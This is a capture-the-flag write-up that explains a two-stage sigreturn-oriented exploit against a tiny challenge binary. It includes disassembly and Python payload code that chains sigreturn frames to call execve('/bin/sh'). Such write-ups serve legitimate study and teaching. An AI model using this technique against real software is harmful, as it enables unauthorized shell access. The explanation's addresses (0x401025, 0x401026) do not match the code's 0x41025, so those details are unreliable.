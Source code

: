 # Moving signals
#### Description
We don't like giving binaries that contain loads of information, so we decided that a small program should do for this challenge. Even written in some custom assembly. I wonder how this could be exploited.
#### Author
Tango
#### Points and solves
442 points, 91 solves.


We are given an extermly small binary:

```asm
0x0000000000041000 <+0>:     mov    rdi,0x0
0x0000000000041007 <+7>:     mov    rsi,rsp
0x000000000004100a <+10>:    sub    rsi,0x8
0x000000000004100e <+14>:    mov    rdx,0x1f4
0x0000000000041015 <+21>:    syscall
0x0000000000041017 <+23>:    ret
0x0000000000041018 <+24>:    pop    rax
0x0000000000041019 <+25>:    ret
```

# The vulnerability:
Well, of course we have full control over ```rip``` using the read syscall.
In addition we again have a ```syscall``` gadget to use for ```sigreturn``` and ```execve```



## 1. Getting sigreturn:
```python
payload = b"A"*8 + p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = 0x41025
frame.rdx = 0x300
frame.rsp = 0x41025
frame.rip = syscall_ret
payload += bytes(frame)
p.send(payload)
```
This payload sets ```rax = 0xf``` and syscalls, the frame that is loaded gives the registers the values:
1. ```rax = 0 for ```read``` syscall
2. ```rdi = 0``` for ```stdin```
3. ```rsi = 0x401025``` is the only known address that is also writeable, (which is right after the given code)
4. ```rsp = 0x401025``` is to align the stack right back to where we are reading into.
5. ```rip = syscall_ret``` to execute this read syscall.
Basically we read the next phase of this exploit into the code segment of the binary, and after that has been done, 
We will return to whatever that will be written to address ```0x401025```

## 2. Getting shell:
payload = p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 59
frame.rdi = 0x41025+248 + 0x18
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0x41000
frame.rip = syscall_ret
payload += bytes(frame) + b"/bin/sh\x00"

This utilizes another ```sigreturn``` to load the values required to perform ```execve(/bin/sh)```
1. ```rax = 59``` for ```execve``` syscall
2. ```rdi = 0x401026 + 248 + 0x18``` for the address that ```/bin/sh``` will be on the stack.
3. ```rsp = 0x41000``` just to have some stack space for saftey.


And we get shell :).
